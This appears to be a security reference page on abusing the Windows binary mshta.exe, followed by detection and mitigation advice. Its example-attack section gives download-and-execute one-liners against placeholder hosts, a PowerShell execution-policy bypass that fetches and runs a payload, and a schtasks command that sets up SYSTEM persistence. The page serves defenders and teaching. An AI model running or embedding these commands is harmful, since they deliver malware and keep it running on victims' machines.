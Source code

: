 # mshta.exe
## What is it?
*```mshta.exe``` (Microsoft HTML Application Host) is a legitimate Windows executable used to run HTML Applications (HTAs) on Windows systems.*
*HTA files are essentially HTML files with scripting capabilities (VBScript, JScript) that can be used to automate tasks, create graphical user interfaces, or interact with the system.*

## Legitimate Usage
- **Running HTA Files** → ```mshta.exe``` is used to run HTA files that contain HTML, CSS, and scripts, typically for application UIs or system automation tasks.
- **System Automation** → IT professionals and developers use ```mshta.exe``` to execute administrative tasks via HTAs, including network configurations or system checks.
- **Embedding Scripts** → HTAs allow embedding of VBScript or JScript, which is useful for creating internal tools that interact with the operating system.

## How to abuse it
- **Executing Malicious HTA Files** → Attackers can use ```mshta.exe``` to execute malicious HTA files that contain embedded scripts (VBScript, JScript) for payload delivery or system exploitation.
- **Bypassing Security Controls** → Since ```mshta.exe``` is a trusted Windows binary, security tools may overlook its misuse, allowing attackers to bypass application whitelisting.
- **Fileless Malware** → HTAs executed with ```mshta.exe``` can run directly in memory, leaving no trace on disk and evading traditional file-based detection methods.
- **Social Engineering** → Attackers can use social engineering to trick users into running malicious HTAs, often disguised as seemingly legitimate documents or web pages.

## Example attacks
### 1. Malicious HTA Execution
*Attackers can use ```mshta.exe``` to execute malicious code embedded within an HTA file, leading to system compromise or payload delivery.*
**Run Malicious HTA File**

```
/cmd /c mshta.exe javascript:a=(GetObject("script:http://10.0.0.5/file.sct")).Exec();close();

mshta.exe http://malicious[.]site/payload.hta

mshta.exe "javascript:a=GetObject('script:http://malicious[.]site/payload.sct')"
```

*calc.exe is spawned by mshta.exe:*

![image](https://github.com/user-attachments/assets/0165509e-73ad-4a73-a70f-f9be47a1eb37)

*sysmon logs for mshta establishing network connections:*

![image](https://github.com/user-attachments/assets/01232198-2016-4da8-a19c-902be70a96ee)

**Effect:**
- The HTA file is downloaded and executed, running embedded malicious scripts like PowerShell or JavaScript that could download and execute malware.

### 2. Fileless Malware Delivery
*Attackers can use ```mshta.exe``` to execute a fileless malware payload directly from memory, avoiding the creation of files on disk.*
**Run PowerShell Script via HTA**

```
mshta.exe "javascript:eval('new ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -command \"Invoke-WebRequest -Uri http://malicious.com/payload.ps1 -OutFile C:\Windows\Temp\payload.ps1; Start-Process C:\Windows\Temp\payload.ps1\")")')"
```

**Effect:**
- The PowerShell script is executed directly in memory, bypassing file-based defenses and avoiding detection by traditional endpoint security solutions.

### 3. Bypassing Application Whitelisting
*Since ```mshta.exe``` is a legitimate Windows utility, it can be used to execute malicious HTA files even when other applications are blocked by application whitelisting solutions.*
**Execute Malicious HTA from Command Line**

```
mshta.exe C:\path\to\malicious.hta
```

**Effect:**
- The malicious HTA file is executed without triggering security alarms since ```mshta.exe``` is a trusted, whitelisted binary.

### 4. Social Engineering to Run Malicious HTA
*Attackers may craft malicious HTA files and distribute them via phishing emails, prompting users to open them by disguising them as seemingly legitimate documents or files.*
**Malicious Email Attachment**
- An email containing an attachment like ```invoice.hta``` or ```resume.hta``` may encourage users to open the file, unwittingly executing the embedded malicious code with ```mshta.exe```.

**Effect:**
- Once opened, the HTA file executes malicious scripts that can result in data theft, system compromise, or further payload delivery.

### 5. Persistence via HTA Files
*Attackers can use HTA files to maintain persistence by creating scheduled tasks or registry entries that automatically execute the HTA file on system startup.*
**Create Scheduled Task to Run Malicious HTA File**

```
schtasks /create /tn "StartupTask" /tr "mshta.exe C:\path\to\malicious.hta" /sc onstart /ru SYSTEM
```

**Effect:**
- The malicious HTA file is executed every time the system starts, ensuring persistence on the compromised system.

# Detection & Mitigation
## Detection Methods
**Monitor for Unusual mshta.exe Execution**
- **Event ID 4688 (Process Creation)** → Detect the execution of ```mshta.exe``` from unusual locations or with suspicious arguments.
- **Analyze Network Traffic** → Monitor for network activity related to the downloading of HTA files or PowerShell scripts executed via ```mshta.exe```.

**Look for Suspicious HTA Files**
- **Audit HTA Files** → Look for HTA files in unusual locations (e.g., temporary folders or external drives) or with suspicious content such as embedded scripts that download or execute malicious payloads.

**Detect Suspicious PowerShell Execution**
- **Event ID 4104 (PowerShell Script Block Logging)** → Look for PowerShell scripts executed through ```mshta.exe```, especially those that download external payloads or execute commands remotely.

## Mitigation Strategies
- **Block mshta.exe** → Use application whitelisting (e.g., AppLocker) to restrict execution of ```mshta.exe``` to authorized applications or users.
- **Monitor File Access Logs** → Detect suspicious HTA files by auditing file access logs for unusual modifications or executions.
- **Limit User Permissions** → Restrict user access to the ability to execute HTA files, especially in non-administrative contexts.
- **Disable Scripting in HTA Files** → Configure system policies to prevent scripts from being executed within HTA files, reducing the attack surface.

